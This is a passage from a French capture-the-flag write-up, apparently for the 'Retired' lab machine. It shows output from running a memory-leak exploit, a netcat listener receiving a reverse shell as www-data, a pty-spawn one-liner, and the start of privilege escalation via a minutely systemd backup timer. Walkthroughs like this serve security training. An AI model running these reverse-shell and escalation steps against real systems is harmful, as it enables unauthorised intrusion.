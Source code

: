 voilà mon exploit afin d'avoir un reverse shell.

on le lance :

```
root@debian:~# python3 exploit.py
[+] pid max is 4194304
[+] pid found : 399
[+] base found : 0x56140fd23000
[+] libc found : 0x7fa18ae1d000
[~] building payload ...
[+] payload built ! 
[~] sending payload
[+] paylaod sent !
```

et on reçoit bien notre reverse shell !

```
root@debian:~# nc -nlvp 4000
Listening on 0.0.0.0 4000
Connection received on 10.10.11.154 52388
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@retired:/var/www$ whoami
whoami
www-data
www-data@retired:/var/www$ 
```

A partir de là on va pouvoir privesc.

# PRIVILEGE ESCALATION


## WWW-DATA

ici, après quelques recherche on trouve un service qui tourne toutes les minutes et qui fait des backups.

```
www-data@retired:/etc/systemd/system$ cat /etc/systemd/system/website_backup.*
[Unit]
Description=Backup and rotate website

[Service]
User=dev
Group=www-data
ExecStart=/usr/bin/webbackup

[Install]
WantedBy=multi-user.target
[Unit]
Description=Regularly backup the website as long as it is still under development

[Timer]
OnCalendar=minutely

[Install]
WantedBy=multi-user.target
```
